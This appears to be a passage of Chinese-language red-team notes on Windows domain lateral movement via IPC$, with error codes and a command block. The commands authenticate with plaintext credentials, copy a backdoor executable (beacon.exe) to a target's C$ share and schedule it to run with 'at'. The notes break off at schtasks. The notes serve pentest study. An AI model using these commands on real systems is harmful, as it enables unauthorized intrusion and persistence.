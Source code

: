   
域控提权漏洞 Exchange漏洞攻防  
  
  
基于配置  
  
  
委派 dysnc asrep kerberos攻击 ntlmreply  
  
### 基于口令凭据  
  
  
口令凭据的横向移动手段是不会被域环境（如子域父域域森林等）影响的。  
  
#### IPC  
  
  
IPC$(Internet Process Connection)是共享"命名管道"的资源，它是一个用于进程间通信的开放式命名管道，通过提供一个可信的用户名和密码，连接双方可以建立一个安全通道并通过这个通道交换加密数据，从而实现对远程计算机的访问。需要使用目标系统用户的账号密码，使用139、445端口。  
  
1. 建立IPC链接到目标主机  
1. 拷贝要执行的命令脚本到目标主机  
1. 查看目标时间，创建计划任务，定时执行拷贝到的脚本  
1. 删除IPC链接  
#建立IPC失败的原因：  
  
1. 目标系统不是NT或以上的操作系统  
1. 对方没有打开IPC$共享  
1. 对方未开启139、445端口，或者被防火墙屏蔽  
1. 输出命令、账号密码有错误  
```
#建立IPC常见的错误代码
（1）5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
（2）51：网络问题，Windows 无法找到网络路径
（3）53：找不到网络路径，可能是IP地址错误、目标未开机、目标Lanmanserver服务未启动、有防火墙等问题
（4）67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
（5）1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
（6）1326：账号密码错误
（7）1792：目标NetLogon服务未启动，连接域控常常会出现此情况
（8）2242：用户密码过期，目标有账号策略，强制定期更改密码
```  
  
IPC$利用命令如下：  
  
```
建立IPC链接
上线Administrator权限
net use \\192.168.3.32\ipc$ "admin!@#45" /user:administrator #工作组
net use \\192.168.3.32\ipc$ "admin!@#45" /user:sqlserver\administrator #工作组
net use \\192.168.3.32\ipc$ "admin!@#45" /user:god\dbadmin #域内

上线webadmin权限
net use \\192.168.3.32\ipc$ "admin!@#45" /user:administrator #理解为登录域内的administrator
net use \\192.168.3.32\ipc$ "admin!@#45" /user:sqlserver\administrator #工作组
net use \\192.168.3.32\ipc$ "admin!@#45" /user:god\dbadmin #域内

net use \\192.168.3.32\ipc$ /del

net use #查看ipc连接
dir \\xx.xx.xx.xx\C$\ #查看文件列表
将后门文件复制到目标主机的C盘
copy 3232.exe \\192.168.3.32\C$

#然后通过计划任务来执行后门文件
[at] & [schtasks]计划任务配合
1、at < Windows2012
copy beacon.exe \\192.168.3.21\c$  #拷贝执行文件到目标机器
at \\192.168.3.21 15:47 c:\beacon.exe   #添加计划任务

2、schtasks >=Windows2012
```
